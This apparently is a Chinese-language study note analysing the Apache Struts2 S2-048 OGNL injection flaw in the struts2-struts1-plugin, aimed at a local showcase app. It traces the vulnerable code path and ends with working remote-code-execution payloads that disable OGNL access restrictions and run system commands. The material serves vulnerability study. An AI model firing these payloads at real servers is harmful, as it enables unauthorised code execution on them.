



  ### S2-048
  
  
  
  攻击者可以构造恶意的字段值通过 Struts2 的 `struts2-struts1-plugin` 的插件，远程执行代码。  
  http://localhost:9048/showcase

* 漏洞分析 
   
  本质上是在 `struts2-struts1-plugin` 这个 jar 包上。这个库是用将 [struts1 的 action](../MyLearning.md#struts1-action) 封装成 [struts2 的 action](../MyLearning.md#struts2-action) 以便在 struts2 上使用。本质原因还是在 `struts2-struts1-plugin` 包中 `Struts1Action.java` 中 `execute函数` 调用了 `getText函数`，这个函数会执行 ognl 表达式，并且 `getText` 的输入内容是攻击者可控的。以下分析基于 struts2 的官方示例 struts2-showcase war 包。首先 `Struts1Action` 的 `execute` 方法代码如下。从红框中信息可以看出其实质是调用 `SaveGangsterAction.execute` 方法，然后再调用 `getText(msg.getKey()….)`。  

  进入 [`Struts1Action.java`](./Struts1Action.java)：  
  
    

  `SaveGangsterAction.java` 的 `execute` 方法的实现：  

    

  其中 `gform.getName()` 的值是从客户端获取的，传入有毒参数 `${1+1}`，放到了 messages (request) 中。  

  接着返回 `Struts1Action` 的 execute 方法中，创建了 [`ActionMessages`](./ActionMessages.java) 实例，获取 request 中的 message。进入循环后，如果数组长度不为0，进入 `if`；如果长度为0，进入 `else`。[`ActionMessage`](./ActionMessage.java) 类中包含了 `key` 和 `Values`。最终执行的是 `else` 里的语句，读取的内容 `Gangster ${1+1} added successfully` 作为 key 存入。

    

  进入 getText 的实现函数，栈图:  

    

  [`ActionSupport`](./ActionSupport.java) 的 getText() 方法：  
  
    
  
  接着进入 [`TextProviderSuppport.getText()`](./TextProviderSupport.java)，接着调用其另一个重载类方法 getText()：  

    

  进入 [`LocalizeTextUtil.findText()`](./LocalizedTextUtil.java)：  

    

  是 ognl 表达式的入口，得到一个 valueStack，最后调用了另一个重载类方法 findText()：  

  


* payload  
  
  
  
  将如下POC填入表单 `Gengster Name` 中，提交即可直接回显命令执行的结果：
  ```
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
  ```

  ```java
  // 链式表达式
  (dm = ognl.OgnlContext.DEFAULT_MEMBER_ACCESS).(_memberAccess ? (_memberAccess = dm):((container = context['com.opensymphony.xwork2.ActionContext.container']).(ognlUtil = container.getInstance(com.opensymphony.xwork2.ognl.OgnlUtil.class)).(ognlUtil.getExcludedPackageNames().clear()).(ognlUtil.getExcludedClasses().clear()).(context.setMemberAccess(dm)))).(q = org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('id').getInputStream())).(q)
  ```

  ```
  name=${(#glassy='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}&age=11&__checkbox_bustedBefore=true&description=22
  ```

  ```java
  name=${( glassy = 'multipart/fm-data'or).(_memberAccess = ognl.OgnlContext.DEFAULT_MEMBER_ACCESS).(a = (new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}&age=11&__checkbox_bustedBefore=true&description=22
  ```